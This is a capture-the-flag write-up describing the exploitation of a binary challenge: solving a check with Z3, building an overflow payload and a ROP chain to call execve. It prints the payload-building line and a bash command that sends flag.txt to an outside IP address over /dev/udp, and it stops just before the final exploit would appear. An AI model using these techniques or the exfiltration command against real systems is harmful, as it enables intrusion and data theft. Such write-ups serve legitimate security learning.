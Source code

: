 Here I spent long time waiting for the result and trying to simplify the equation of the solver. But finally I noticed that Z3py's right-shift BitVec operator appears to do arithmetic shifts! This took a LONG time to track down and then I fixed it by replacing it with  **LShR** (Logical Shift Right).

Few minutes after running the solver scipt I got a result.

```python
[
xor = 8084123859080867570
p1 = 6243103394520245037
]
```

This means that xoring my input must give  **8084123859080867570** and long value at position 1496 must be equal to  **6243103394520245037.**

 
My payload format is the following:

```python
payload = (ropchain+ "\x00" * (736 - len(ropchain)))*2 + pack("<Q",xor) + pack("<Q",xor ^ p1) + pack("<Q",xor) + pack("<Q",p1) + pack("<Q",p2)
```

Now it is time to construct a  **ROP** chain which execute execve syscall. Note here that  **ASLR** is disabled on server.

While building the ropchain you must take into consideration that there is another check to bypass. This check is done before triggering the syscall.

```assembly
.text:00000000004011D9                 mov     r15, 0FFFFFFFFDEADDEADh
...
.text:0000000000400ED3 popitlikeitshot:
.text:0000000000400ED3               
.text:0000000000400ED3                 int     3
.text:0000000000400ED4                 nop
```

My ropchain opens a shell in remote server. I tried to play with file descriptor to redirect the stdin and stdout to the active connection but finally I decided to make it execute  **/bin/bash**  with any command passed as argument. This was practical since netcat was disabled in addition to other networking features.

Assuming that the flag is in the same folder as the binary.

The command to execute to get the flag is

```bash
bash -c "cat flag.txt > /dev/udp/164.132.103.207/53"
```

The ROP chain should perform:

```bash
execve("/bin/bash",["/bin/bash", "-c", "cat flag.txt > /dev/udp/164.132.103.207/53"], NULL);
```

The final exploit is:
  